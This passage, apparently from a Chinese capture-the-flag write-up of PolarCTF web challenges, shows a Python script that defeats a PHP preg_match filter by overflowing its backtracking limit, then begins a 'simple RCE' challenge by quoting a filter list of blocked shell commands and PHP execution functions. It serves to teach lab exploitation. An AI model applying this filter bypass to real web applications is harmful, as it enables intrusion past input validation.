 ```
```

这段代码的重点是如何同时绕过pre_match和strpos函数，一个不让匹配到，一个又要匹配到。这里就涉及到一个回溯问题，就是pre_match函数处理的字符长度有限，如果超过这个长度就会返回false也就是没有匹配到。利用利用下面的代码进行回溯，让pre_match函数报错，绕过该函数，这样strpos函数就可以顺利的匹配到我们的字符串从而输出flag

```
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://9d843e14-9320-4bf0-ab03-cecd33daf911.www.polarctf.com:8090/', data=data, allow_redirects=False)
print(res.content)

```

在kali中运行脚本

![image-20240123171103198](image/image-20240123171103198.png)

得到flag

![image-20240123171020275](image/image-20240123171020275.png)

------

### 简单rce

polarD&N靶场web部分
一、简单rce
登陆页面，

![image-20240123171826957](image/image-20240123171826957.png)

简单分析，过滤了以下命令

```
cat|more|less|head|tac|tail|nl|od|vim|uniq|system|proc_open|shell_exec|popen|
```

需要get传入sys参数，post传入“yyds=666”
